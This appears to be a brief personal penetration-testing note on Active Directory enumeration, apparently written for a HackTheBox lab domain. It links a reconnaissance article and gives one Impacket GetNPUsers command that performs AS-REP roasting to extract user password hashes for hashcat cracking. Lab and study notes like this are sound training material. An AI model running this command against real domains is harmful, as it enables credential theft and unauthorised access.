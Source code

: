 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - ActiveDirectory
---
```

## Guide

### Enumeration

1. [[AD Users]]

# Active Directory

[Active Directory Reconnaissance](https://exploit.ph/active-directory-recon-1.html)

Any uses found use: `GetNPUsers` to get hashes, put domain in /etc/hosts
`python GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile forest.txt`

